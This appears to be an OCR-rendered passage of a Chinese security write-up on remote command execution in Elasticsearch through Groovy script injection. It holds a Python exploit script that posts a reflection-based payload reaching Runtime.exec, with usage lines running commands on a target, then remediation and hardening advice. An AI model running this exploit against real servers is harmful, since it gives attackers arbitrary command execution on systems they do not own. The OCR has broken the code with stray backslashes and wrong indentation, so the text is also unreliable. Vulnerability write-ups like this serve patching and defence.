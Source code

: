 ```
                            "script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).\newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.\class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"%s\").\getInputStream())).readLines()" % command,
                            "lang": "groovy"
                        }
                }
            }
data = json.dumps(parameters)
try:
    request=urllib2.Request(url+"_search?pretty",data)
    request.add_header('User-Agent', 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36')
    response=urllib2.urlopen(request)
    result = json.loads(response.read())["hits"]["hits"][0]["fields"]["iswin"][0]
for i in result:
    print i
except Exception, e:
    print e
if __name__ == '__main__':
    if len(sys.argv) != 3:
        print "usage %s url command" % sys.argv[0]
    else:
        execute(sys.argv[1],sys.argv[2])
```

用法:

```
python Elasticsearch.py target ifconfig
python Elasticsearch.py target 'uname -a'
```

## 修复方法:

关闭groovy沙盒以已停止动态脚本的使用：

```
script.groovy.sandbox.enabled: false
```

### 安全建议:

- elasticsearch禁止向外网开放
- elasticsearch在启动的时候以非root用户启动.
- 如果业务需要外网开放时,增加严格权限验证
- 关注官方动态,使用最新版本

